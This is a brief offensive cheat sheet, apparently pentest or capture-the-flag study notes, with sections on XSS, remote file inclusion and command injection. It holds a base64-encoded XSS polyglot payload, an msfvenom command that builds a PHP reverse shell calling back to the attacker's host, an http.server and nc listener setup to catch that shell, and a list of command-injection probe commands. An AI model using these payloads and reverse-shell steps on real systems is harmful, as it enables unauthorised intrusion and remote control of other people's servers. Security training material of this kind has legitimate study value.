# XSS
### XSS Hunter
`
https://xsshunter.com/
`
### XSS Polyglot (decode to get actual payload)
`
amFWYXNDcmlwdDovKi0vKmAvKlxgLyonLyoiLyoqLygvKiAqL29uZXJyb3I9YWxlcnQoJ1RITScpICkvLyUwRCUwQSUwZCUwYS8vPC9zdFlsZS88L3RpdExlLzwvdGVYdGFyRWEvPC9zY1JpcHQvLS0hPlx4M2NzVmcvPHNWZy9vTmxvQWQ9YWxlcnQoJ1RITScpLy8+XHgzZQ==
`

# RFI
### Shell generation
`msfvenom -p php/reverse_php lport=4444 lhost=<your ip > /path/to/shell`

### Start listen on port
`cd /path/to/shell`

`sudo python3 -m http.server`

`nc -lvp 4444`                 


# Command Injection
Use one of the following commands to test command injection
### Blind
`ping`

`>` forcing some output && `cat`

`curl` great way

### Verbose
#### Linux
`whoami` || `ls` || `ping` || `sleep` ||  `nc`

#### Windows
`whoami` || `dir` || `ping` || `timeout`
